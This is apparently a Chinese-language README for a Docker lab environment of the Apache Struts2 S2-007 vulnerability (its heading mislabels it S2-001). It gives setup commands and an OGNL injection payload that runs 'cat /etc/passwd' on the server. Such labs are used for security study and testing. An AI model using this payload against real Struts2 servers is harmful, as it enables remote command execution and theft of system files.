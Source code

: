 ## Struts2 S2-001 漏洞环境

### 漏洞信息

 * [S2-007 公告](http://struts.apache.org/docs/s2-007.html)

参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-007
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-007
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行(命令加参数：getRuntime().exec('cat /etc/passwd'))

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cat /etc/passwd').getInputStream())) + '
```

![](s2-007-1.png)

![](s2-007-2.png)

